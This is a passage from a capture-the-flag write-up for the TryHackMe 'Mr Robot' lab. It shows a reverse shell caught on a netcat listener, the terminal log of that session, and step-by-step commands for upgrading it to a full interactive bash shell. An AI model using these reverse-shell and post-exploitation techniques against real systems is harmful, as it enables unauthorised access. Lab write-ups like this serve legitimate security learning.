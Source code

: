 ![](https://github.com/pratty010/Boxes/blob/master/Try_Hack_Me/Mr_Robot_CTF/images/rev_shell_req.png)
\
**REVERSE SHELL**

```bash
connect to [10.13.6.171] from (UNKNOWN) [10.10.87.211] 47417
Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
 07:13:45 up  3:39,  0 users,  load average: 0.00, 0.01, 0.39
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: can't access tty; job control turned off
$ which python
/usr/bin/python
```

We can now stabilize the shell using the _Python pty module_ to get a basic bash shell and then export some of our _stty options_ to upagarde to a full shell. It is a common way and the steps can be seen as
1. **python -c 'import pty; pty.spawn("/bin/bash")'** : Get a basic pty bash shell. Has no autocomplete, clear or movement.
2. **CTRL-Z** : Background pty shell
3. **stty -a | head -n1** : To display the rows and columns on our host shell.
4. **stty raw -echo** : raw option send our command straight to the pty shell and -echo outputs every input command
5. **fg** : foreground the pty shell
6. **export HOME=$HOME_DIR** : set home directory to your requirements.
7. **export SHELL=/bin/bash** : set SHELL to available one. Most of the time /bin/bash or /bin/sh.
8. **export TERM=xterm-256color** : set TERMINAL to standard xterm or xterm-256color
9. **stty rows X columns Y** : Finally set the rows and columns size to the output in step 3. \
\
**RESULT**
```bash
$ python -c 'import pty; pty.spawn("/bin/bash")'
daemon@linux:/$ ^Z
[1]+  Stopped                 nc -lnvvp 5555
kali@kali:~/ $ stty -a | head -n1
speed 38400 baud; rows 46; columns 187; line = 0;
kali@kali:~/Desktop/Boxes/Try_Hack_Me/Mr_Robot_CTF$ stty raw -echo
nc -lnvvp 5555sktop/Boxes/Try_Hack_Me/Mr_Robot_CTF$ 

daemon@linux:/$ export SHELL=bash
daemon@linux:/$ export TERM=xterm-256color
daemon@linux:/$ stty rows 46 columns 187
```
We now have a stabilized shell and thus we can now go and enumerate the system.
